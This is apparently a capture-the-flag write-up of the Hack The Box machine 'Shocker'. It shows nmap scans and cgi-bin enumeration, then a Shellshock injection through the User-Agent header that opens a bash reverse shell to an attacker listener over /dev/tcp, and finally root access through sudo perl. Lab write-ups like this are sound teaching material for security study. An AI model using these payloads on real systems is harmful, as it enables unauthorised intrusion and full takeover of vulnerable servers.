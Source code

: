 # HTB - Shocker    10.10.10.56


- Linux 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
- Ubuntu 16.04.3 LTS

- Apache/2.4.18 (Ubuntu)
- OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

- Use the box name to identify Shell Shock exploit
- dird : find /cgi-bin/
- dirb : find /cgi-bin/user.sh
- Use shell shock
- use sudo -l


## Walkthrough

- https://medium.com/@andr3w_hilton/htb-shocker-walkthrough-37f1dc6203f3



## NMap

```
# Nmap 7.70 scan initiated Sun Sep 15 13:12:52 2019 as: nmap -sC -sV -A -o enum/nmap_10.10.10.56_recon.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Aggressive OS guesses: Linux 3.2 - 4.9 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (92%), Linux 3.18 (92%), Linux 4.2 (92%), Linux 3.12 (91%), Linux 3.13 (91%), Linux 3.8 - 3.11 (91%), Linux 4.4 (91%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   36.35 ms 10.10.14.1
2   36.41 ms 10.10.10.56

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 15 13:13:08 2019 -- 1 IP address (1 host up) scanned in 17.39 seconds
```


## 80

![](images/http:__10.10.10.56:80.png)
```
HTTP/1.1 200 OK
Date: Sun, 15 Sep 2019 11:07:05 GMT
Server: Apache/2.4.18 (Ubuntu)
```

The name is Shocker, we search for a shell shock exploit.
Let search cgi-bin directory for a .sh file

### Dirb

Found http://10.10.10.56:80/cgi-bin/ 

### Shell shock


Use Request header to inject commands
```
# curl -H "User-Agent: () { :; }; /bin/ping 10.10.14.32 -c 2" http://10.10.10.56:80/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>

```
Take 2s to get response.
We have no stdout, but command is executed


```
# curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.32/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh
```

Get the reverse shell
```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.56: inverse host lookup failed: Unknown host
connect to [10.10.14.32] from (UNKNOWN) [10.10.10.56] 59738
bash: no job control in this shell

shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/usr/lib/cgi-bin$ 

shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXxxxx 

```
## System
```
$ uname -a
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/issue
Ubuntu 16.04.3 LTS


```


## Escalation

```
$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

$ sudo perl -e 'system("/bin/bash")'
sudo perl -e 'system("/bin/bash")'
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXxx

```


